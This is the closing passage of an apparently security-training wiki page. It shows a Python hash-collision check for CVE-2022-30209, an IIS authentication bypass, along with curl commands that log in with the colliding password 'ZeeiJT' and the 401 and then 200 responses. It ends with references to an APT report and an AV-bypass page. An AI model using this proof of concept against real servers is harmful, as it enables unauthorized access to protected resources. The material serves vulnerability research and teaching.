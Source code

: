 ```python
# script for sanity check
> type test.py
def HashString(password):
    j = 0
    for c in map(ord, password):
        j = c + (101*j)&0xffffffff
    return j

assert HashString('test-for-CVE-2022-30209-auth-bypass') == HashString('ZeeiJT')

# before the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 401 Unauthorized

# after the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 200 OK
```

## References

- [Unit 42 – Phantom Taurus: A New Chinese Nexus APT and the Discovery of the NET-STAR Malware Suite](https://unit42.paloaltonetworks.com/phantom-taurus/)
- [AMSI/ETW bypass background (HackTricks)](../../windows-hardening/av-bypass.md)

{{#include ../../banners/hacktricks-training.md}}
